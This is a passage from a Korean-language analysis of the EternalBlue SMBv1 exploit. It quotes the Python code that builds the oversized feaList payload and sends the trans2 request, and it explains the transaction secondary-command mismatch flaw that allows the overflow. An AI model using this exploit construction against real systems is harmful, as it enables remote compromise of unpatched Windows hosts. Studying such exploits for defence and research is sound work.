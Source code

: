 그후 원격 시스템의 `IPC$` 공유폴더에 접근하고

```
    progress = send_big_trans2(conn, tid, 0, feaList, '\x00'*30, 2000, False)
```

최초의 NT Trans 요청을 보낸다.

이 때 파라미터 중 `feaList`는 아래와 같다.

    feaList = pack('<I', 0x10000)  # the value of feaList size MUST be >=0x10000 to trigger bug (but must be less than data size)
    feaList += ntfea[NTFEA_SIZE]

    # Note:
    # - SMB1 data buffer header is 16 bytes and 8 bytes on x64 and x86 respectively
    #   - x64: below fea will be copy to offset 0x11000 of overflow buffer
    #   - x86: below fea will be copy to offset 0x10ff8 of overflow buffer
    feaList += pack('<BBH', 0, 0, len(fakeSrvNetBuffer)-1) + fakeSrvNetBuffer # -1 because first '\x00' is for name

    # stop copying by invalid flag (can be any value except 0 and 0x80)
    feaList += pack('<BBH', 0x12, 0x34, 0x5678)

  - header 부분 : 0x10000, 초기에 지정된 크기 (이후 업데이트 되며, 취약점을 발생시키는 부분)
  - body 부분 : ntfea[NTFEA_SIZE], 할당되는 pool의 크기에 따라 overflow를 발생시키기 위하여 크기가 유동적으로 조절됨
  - overflow 부분 : `pack('<BBH', 0, 0, len(fakeSrvNetBuffer)-1) + fakeSrvNetBuffer`, 실제로 overflow되어 들어가는 부분
  - stop 부분 : pack('<BBH', 0x12, 0x34, 0x5678), 추가로 복사되는 걸 막기위해 삽입되는 invalid flag

## 2. send_big_trans2()

NT Trans 요청을 보낼 때 취약점을 한 가지 이용한다.

SMB transaction을 보낼 때는 올바른 SMB command를 보내주어야 한다.

한편, transaction message가 지정된 MaxBufferSize보다 클 경우, SECONDARY command를 다시 보내고 이를 통해 (추가적인?) message를 전송할 수 있다. 이 때 서버는 마지막으로 도착한 command를 사용하여 transaction을 처리한다.

그런데, 이 때 SMB command와 SECONDARY command가 매칭되지 않는 경우에도 서버가 오류를 발생시키지 않는 취약점이 존재한다.

가령, 다음의 경우,

  - `SMB_COM_NT_TRANSACT` command로 transaction 시작
  - `SMB_COM_NT_TRANSACT_SECONDARY` 와 `SMB_COM_TRANSACTION2_SECONDARY` command로 추가 전송
  - `SMB_COM_TRANSACTION2_SECONDARY`로 마지막 전송
